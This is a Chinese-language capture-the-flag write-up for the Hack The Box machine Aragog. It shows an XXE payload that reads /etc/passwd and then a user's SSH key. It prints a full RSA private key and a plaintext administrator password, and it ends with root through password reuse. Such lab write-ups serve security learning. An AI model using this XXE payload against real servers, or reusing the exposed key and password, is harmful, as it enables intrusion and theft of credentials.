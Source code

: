# Aragog\_78

![image-20200919205806832](assets/Aragog_78.assets/image-20200919205806832.png)

![image-20200919205847470](assets/Aragog_78.assets/image-20200919205847470.png)

![image-20200919205916639](assets/Aragog_78.assets/image-20200919205916639.png)

80似乎没什么

先测试ftp匿名登陆

![image-20200919210022199](assets/Aragog_78.assets/image-20200919210022199.png)

改模式。下载。

![image-20200919210144245](assets/Aragog_78.assets/image-20200919210144245.png)

查看

![image-20200919210214072](assets/Aragog_78.assets/image-20200919210214072.png)

看内容格式应该是xml

xml一般是数据页面，把数据信息传递给某个程序或页面进行处理，我们目前只有`host.php`

使用burp suite在host.php这页进行抓包，将包发往repeater模块

![image-20200919210602161](assets/Aragog_78.assets/image-20200919210602161.png)

修改包内容部分，将`test.txt`内容写入，并发送

![image-20200919210742168](assets/Aragog_78.assets/image-20200919210742168.png)

看回显应该是处理了

![image-20200919211033105](assets/Aragog_78.assets/image-20200919211033105.png)

说明存在XXE

简单来说，XXE就是XML外部实体注入。当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行、内网端口探测、攻击内网网站等危害。

```bash
GET /hosts.php HTTP/1.1
Host: 10.10.10.78
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

<!DOCTYPE foo[
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
```

payload

```bash
<!DOCTYPE foo[
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
```

![image-20200919211912576](assets/Aragog_78.assets/image-20200919211912576.png)

现在有了一个可以查看服务器文件的入口了

正常返回，发现两个用户

`florian`和`cliff`

分别替换xxe里面的目录查看一下对应用户的ssh私钥。毕竟目标还是进系统。80没入口，肯定优先考虑ssh

`file:///home/cliff/.ssh/id_rsa`

什么也没有。看一下florian的

![image-20200919212435627](assets/Aragog_78.assets/image-20200919212435627.png)

打出来私钥了

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA50DQtmOP78gLZkBjJ/JcC5gmsI21+tPH3wjvLAHaFMmf7j4d
+YQEMbEg+yjj6/ybxJAsF8l2kUhfk56LdpmC3mf/sO4romp9ONkl9R4cu5OB5ef8
lAjOg67dxWIo77STqYZrWUVnQ4n8dKG4Tb/z67+gT0R9lD9c0PhZwRsFQj8aKFFn
1R1B8n9/e1PB0AJ81PPxCc3RpVJdwbq8BLZrVXKNsg+SBUdbBZc3rBC81Kle2CB+
Ix89HQ3deBCL3EpRXoYVQZ4EuCsDo7UlC8YSoEBgVx4IgQCWx34tXCme5cJa/UJd
d4Lkst4w4sptYMHzzshmUDrkrDJDq6olL4FyKwIDAQABAoIBAAxwMwmsX0CRbPOK
AQtUANlqzKHwbVpZa8W2UE74poc5tQ12b9xM2oDluxVnRKMbyjEPZB+/aU41K1bg
TzYI2b4mr90PYm9w9N1K6Ly/auI38+Ouz6oSszDoBeuo9PS3rL2QilOZ5Qz/7gFD
9YrRCUij3PaGg46mvdJLmWBGmMjQS+ZJ7w1ouqsIANypMay2t45v2Ak+SDhl/SDb
/oBJFfnOpXNtQfJZZknOGY3SlCWHTgMCyYJtjMCW2Sh2wxiQSBC8C3p1iKWgyaSV
0qH/3gt7RXd1F3vdvACeuMmjjjARd+LNfsaiu714meDiwif27Knqun4NQ+2x8JA1
sWmBdcECgYEA836Z4ocK0GM7akW09wC7PkvjAweILyq4izvYZg+88Rei0k411lTV
Uahyd7ojN6McSd6foNeRjmqckrKOmCq2hVOXYIWCGxRIIj5WflyynPGhDdMCQtIH
zCr9VrMFc7WCCD+C7nw2YzTrvYByns/Cv+uHRBLe3S4k0KNiUCWmuYsCgYEA8yFE
rV5bD+XI/iOtlUrbKPRyuFVUtPLZ6UPuunLKG4wgsGsiVITYiRhEiHdBjHK8GmYE
tkfFzslrt+cjbWNVcJuXeA6b8Pala7fDp8lBymi8KGnsWlkdQh/5Ew7KRcvWS5q3
HML6ac06Ur2V0ylt1hGh/A4r4YNKgejQ1CcO/eECgYEAk02wjKEDgsO1avoWmyL/
I5XHFMsWsOoYUGr44+17cSLKZo3X9fzGPCs6bIHX0k3DzFB4o1YmAVEvvXN13kpg
ttG2DzdVWUpwxP6PVsx/ZYCr3PAdOw1SmEodjriogLJ6osDBVcMhJ+0Y/EBblwW7
HF3BLAZ6erXyoaFl1XShozcCgYBuS+JfEBYZkTHscP0XZD0mSDce/r8N07odw46y
kM61To2p2wBY/WdKUnMMwaU/9PD2vN9YXhkTpXazmC0PO+gPzNYbRe1ilFIZGuWs
4XVyQK9TWjI6DoFidSTGi4ghv8Y4yDhX2PBHPS4/SPiGMh485gTpVvh7Ntd/NcI+
7HU1oQKBgQCzVl/pMQDI2pKVBlM6egi70ab6+Bsg2U20fcgzc2Mfsl0Ib5T7PzQ3
daPxRgjh3CttZYdyuTK3wxv1n5FauSngLljrKYXb7xQfzMyO0C7bE5Rj8SBaXoqv
uMQ76WKnl3DkzGREM4fUgoFnGp8fNEZl5ioXfxPiH/Xl5nStkQ0rTA==
-----END RSA PRIVATE KEY-----
```

在本机制作新的私钥

```bash
$ vim id_rsa.key
$ chmod 600 id_rsa.key
```

使用私钥登录ssh成功

![image-20200919212736495](assets/Aragog_78.assets/image-20200919212736495.png)

得到user

![image-20200919212902976](assets/Aragog_78.assets/image-20200919212902976.png)

在`/var/www/html`发现了另一套wp，同时在文件夹中的`creds.txt`中发现了一组凭证

![image-20200919213817851](assets/Aragog_78.assets/image-20200919213817851.png)

```bash
Administrator:!KRgYs(JFO!&MTr)lf
```

尝试是否存在密码复用

直接su，使用这个密码，成功root，root密码复用

![image-20200919214049645](assets/Aragog_78.assets/image-20200919214049645.png)

![image-20200919214113713](assets/Aragog_78.assets/image-20200919214113713.png)

